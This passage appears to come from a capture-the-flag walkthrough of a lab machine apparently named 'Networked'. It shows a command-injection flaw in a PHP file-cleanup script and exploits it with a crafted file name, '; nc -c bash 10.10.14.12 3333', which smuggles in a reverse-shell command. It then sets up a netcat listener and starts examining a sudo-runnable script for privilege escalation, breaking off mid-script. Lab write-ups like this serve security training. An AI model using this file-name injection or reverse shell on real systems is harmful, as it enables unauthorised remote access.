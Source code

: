 The _getnameCheck\(\)_ function simply separates the name of the file from the extension of the file. The _check\_ip\(\)_ function checks if the filename is a valid IP address. If it is not, it will return false which will trigger the attack component in the _check\_attack.php_ file.

```text
if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
```

This passes the path of the file to the exec\(\) function and deletes it. Of course, no validation is being done on the input of the exec\(\) function and so we can abuse it to escalate privileges.

Change to the /var/www/html/uploads directory and create the following file.

```text
touch '; nc -c bash 10.10.14.12 3333'
```

The “;” will end the “rm” command in the exec\(\) function and run the nc command, which will send a reverse shell back to our machine.

Set up a listener to receive the reverse shell.

```text
nc -nlvp 3333
```

Wait for the cron job to run and we get a shell!

![](https://miro.medium.com/max/766/1*OkP1WlM1QKT84lApLyJYSQ.png)

Convert the shell to a fully interactive shell and grab the user.txt flag.

![](https://miro.medium.com/max/451/1*2VJG0HmFnJgPRxZFrriRkA.png)

We need to escalate our privileges to root. I downloaded the _LinEnum_ script and ran it. It looks like we can run the following file as root without a password.

```text
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh[+] Possible sudo pwnage!
/usr/local/sbin/changename.sh
```

View the permissions on the file.

```text
[guly@networked ~]$ ls -la /usr/local/sbin | grep changename.sh
-rwxr-xr-x   1 root root 422 Jul  8  2019 changename.sh
```

We only have read and execute permissions on the file. Let’s view the content of the file.

```text
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoFregexp="^[a-zA-Z0-9_\ /-]+$"for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
```